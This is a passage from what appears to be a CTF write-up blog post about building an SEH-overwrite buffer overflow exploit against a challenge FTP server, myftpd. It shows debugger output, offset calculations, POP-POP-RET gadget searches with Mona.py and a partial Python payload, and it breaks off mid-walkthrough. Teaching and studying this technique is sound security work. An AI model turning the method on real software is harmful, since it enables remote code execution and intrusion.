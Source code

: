 And we also see the SEH chain looking something like this:

```txt
SEH chain of thread 000008B0
Address    SE handler
021FC57C   ntdll.77DEB4AD
021FFFC4   41414141              <--- juicy!
41414141   *** CORRUPT ENTRY ***
```

The next step is to do the usual `pattern_create.rb`/`pattern_offset.rb` dance to determine the offsets of the `SEH` and `NSEH` addresses. You all know how to do this by now, so I'll skip to it and show you:

```txt
$ pattern_offset.rb 41386c41
[*] Exact match at offset 354
```

So the SEH offset is `354`, which makes the NSEH offset `350`. Next we need an address that we can write to SEH, and this address needs to contain the usual chain of `POP # POP # RET` instructions which returns control to the NSEH location. Using Mona.py we find:

```txt
0BADF00D   [+] Results :
00403723     0x00403723 : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
00403A8A     0x00403a8a : pop esi # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
00403AF5     0x00403af5 : pop esi # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
00403B4F     0x00403b4f : pop esi # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
004011CB     0x004011cb : pop ebx # pop ebp # ret 0x04 | startnull {PAGE_EXECUTE_READ} [myftpd.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\OJ\Desktop\myftpd.exe)
0BADF00D       Found a total of 5 pointers
```

To minimise potential bad character damage I went with `0x00403723`. This is the value that we need to write to the SEH location. In the 4 bytes before that we'll write 4 x `CC` bytes (breakpoints) so that we can validate that we've gained control. So our payload looks like:

``` python
seh_offset = 354
nseh_offset = seh_offset - 4
payload  = "A" * nseh_offset
payload += "\xCC" * 4
payload += struct.pack("<L", 0x00403723)
```

You'll notice I'm not giving as much away as I did in the previous post. I'll instead save it for the big reveal at the end.

If we run this we get an access violation, which again we hit `SHIFT+F9` to pass to the application and we see this in Immunity:


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization